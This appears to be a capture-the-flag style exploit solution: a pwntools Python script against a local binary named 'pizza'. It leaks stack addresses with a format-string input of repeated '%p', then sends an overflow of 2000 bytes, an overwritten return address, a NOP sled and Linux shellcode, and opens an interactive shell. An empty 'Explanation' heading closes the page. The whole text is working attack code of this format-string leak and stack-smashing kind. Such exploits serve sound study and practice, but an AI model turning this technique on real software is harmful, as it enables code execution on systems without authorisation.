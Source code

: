 # Code
  from pwn import *

  elf = ELF("./pizza")

  context(arch='amd64', os='linux', endian='little', word_size=64)
  getname_address = elf.symbols["getname"]
  input1 = b"%p " * 20

  victim = process("./pizza")
  victim.sendline(input1)
  victim.recvline()

  stack_addresses = victim.recvline().strip().split()
  stack_addresses = stack_addresses[7:]
  stack_offset = int(stack_addresses[3], 16)

  return_address = p64(stack_offset)
  exploit_payload = b"A" * 2000 + return_address + b"\x90" * 100 + asm(shellcraft.amd64.linux.sh())

  victim.sendline(exploit_payload)
  victim.interactive()

# Explanation
